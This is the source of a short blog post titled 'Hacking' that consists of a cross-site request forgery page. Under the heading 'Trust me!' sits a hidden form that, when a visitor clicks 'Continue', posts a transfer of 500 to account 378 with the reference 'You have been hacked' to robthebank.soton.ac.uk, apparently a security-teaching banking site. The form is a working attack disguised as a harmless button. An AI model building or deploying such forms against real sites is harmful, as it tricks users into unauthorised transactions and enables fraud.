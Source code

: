 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!
<form action="http://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="378">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="500">
</div>
<input class="btn btn-primary" type="submit" value="Continue">
</form>



****
